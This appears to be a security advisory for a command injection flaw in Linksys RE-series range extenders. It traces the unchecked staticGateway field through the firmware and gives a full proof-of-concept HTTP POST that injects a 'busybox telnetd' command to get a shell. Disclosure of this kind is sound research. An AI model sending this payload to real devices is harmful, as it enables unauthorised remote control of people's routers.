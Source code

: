 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500



## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `um_inspect_cross_band`, `staticGateway` is directly passed by the attacker, so we can control the `staticGateway` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

<div  align="center"><img src="./images/2.png" style="zoom:60%;" /></div>

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

`mod_form.so->internet.sh->um_inspect_cross_band`

In `um_inspect_cross_band` binary:

Eventually, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/4.png" style="zoom:60%;" /></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.

> RP_setBasicByBBS、setWan function exists the same problem, also can set the value of staticIp.



## PoC

We set `staticGateway` as **192.168.1.1`busybox telnetd`** , and the router will excute it,such as:

```http
POST /goform/RP_setBasicAuto HTTP/1.1
Host: 192.168.1.12
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1388
Origin: http://192.168.1.12
Connection: close
Referer: http://192.168.1.12/wireless/wireless_basic.shtml
Cookie: session_id=w3vaYGwYWBt8eHjbBEsywfj5PGMSsDMo
Upgrade-Insecure-Requests: 1

hname=RE6500-565&fname=Linksys+Range+Extender&cType=STATIC&staticIp=192.168.1.12&staticNetmask=255.255.255.0&staticGateway=192.168.1.1`busybox telnetd`&staticPriDns=192.168.1.251&staticSecDns=&staticTrdDns=&TZ=UCT_-04&save_time=0&device_mode=3&ap_disable_2G=0&ap_mode_2G=9&ap_ssid_2G=NETGEAR15_Ext&ap_encrypt_2G=AES&ap_AuthMode_2G=WPA2-PSK&ap_DefaultKeyID_2G=&ap_Key1Str1_2G=&ap_Key2Str1_2G=&ap_Key3Str1_2G=&ap_Key4Str1_2G=&ap_EncKey_2G=d2lkZWFwcGxlMzcy&ap_channel_2G=0&ap_ext_channel_2G=0&ap_channelWidth_2G=1&ssid_broadcast_AP_2G=2&needset_WscConfigured_2G=1&apcli_ssid_2G=NETGEAR15&apcli_encrypt_2G=AES&apcli_AuthMode_2G=WPA2-PSK&apcli_DefaultKeyID_2G=&apcli_Key1Str1_2G=&apcli_Key2Str1_2G=&apcli_Key3Str1_2G=&apcli_Key4Str1_2G=&apcli_EncKey_2G=d2lkZWFwcGxlMzcy&apcli_channel_2G=0&apcli_channelWidth_2G=1&ap_disable_5G=0&ap_mode_5G=14&ap_ssid_5G=NETGEAR15-5G_Ext&ap_encrypt_5G=AES&ap_AuthMode_5G=WPA2-PSK&ap_DefaultKeyID_5G=&ap_Key1Str1_5G=&ap_Key2Str1_5G=&ap_Key3Str1_5G=&ap_Key4Str1_5G=&ap_EncKey_5G=d2lkZWFwcGxlMzcy&ap_channel_5G=0&ap_ext_channel_5G=0&ap_channelWidth_5G=2&ssid_broadcast_AP_5G=2&needset_WscConfigured_5G=1&apcli_ssid_5G=NETGEAR15-5G&apcli_encrypt_5G=AES&apcli_AuthMode_5G=WPA2-PSK&apcli_DefaultKeyID_5G=&apcli_Key1Str1_5G=&apcli_Key2Str1_5G=&apcli_Key3Str1_5G=&apcli_Key4Str1_5G=&apcli_EncKey_5G=d2lkZWFwcGxlMzcy&apcli_channel_5G=0&apcli_channelWidth_5G=2&b64_pwd=1
```



## Result

Get a shell!

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>

